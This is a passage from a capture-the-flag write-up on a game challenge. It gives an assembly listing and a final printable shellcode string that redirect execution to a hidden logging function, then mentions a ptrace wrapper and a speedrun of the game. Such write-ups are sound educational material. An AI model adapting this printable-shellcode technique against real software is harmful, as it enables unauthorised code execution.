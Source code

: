 Next, we'd like to jump to `hw_log` somehow. Unfortunately, this is not easy as most of the jump instructions are not printable. However, some of the relative short jumps are printable. We could push the address we'd like to jump to, then use a relative short jump to jump down to the return at the end of the function.

With some trial and error, this is what I came up with:
```nasm
push   rsp
pop    rdx
pop    rax
push   0x41414152
xor    rdi,  QWORD PTR ss:[rdx]
pop    r8
push   0x41614141
pop    rax
xor    eax,  0x41214c3a
push   rax
jne    0x40043d
```

The final shellcode (without the quotes, note the space):
```
'TZXhRAAA6H3:AXhAAaAX5:L!APu '
```

Since the organizers decided to release the binary later, I wrote a custom wrapper (mostly implemented with `ptrace`) to patch the output strings to proper ANSI, provide the custom syscalls, and trigger LiveSplit on some checkpoints.

Yes, that's right - <a href="./2020-09-20_23-39-47.mp4">speedrunning blox is now a thing</a>. Certainly some areas for improvement, but an excellent start for sure.

# Final Thoughts
Overall, this was not a terribly difficult challenge, but it was certainly very interesting. I had a lot of fun solving it (and playing way too much of it after the CTF).
